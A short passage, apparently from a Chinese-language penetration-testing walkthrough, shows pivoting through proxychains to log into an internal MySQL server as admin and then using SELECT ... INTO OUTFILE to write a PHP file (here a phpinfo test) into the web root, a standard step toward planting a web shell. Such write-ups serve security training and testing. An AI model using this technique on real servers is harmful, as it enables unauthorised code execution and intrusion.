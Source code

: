 ```plain
proxychains mysql -u admin -p -h 192.168.100.1
```

[![](assets/1711556160-226d343d51c40046d49367ae9630b9d7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230806203615-d5cb6098-3455-1.png)

因为是默认页面就直接写入就好了：

```plain
select '<?php phpinfo()?>' INTO OUTFILE '/var/www/html/test.php';
```

[![](assets/1711556160-fdb3a00d0e2bb9dcd2e07cbcec64ac9d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230806203643-e5ff319c-3455-1.png)
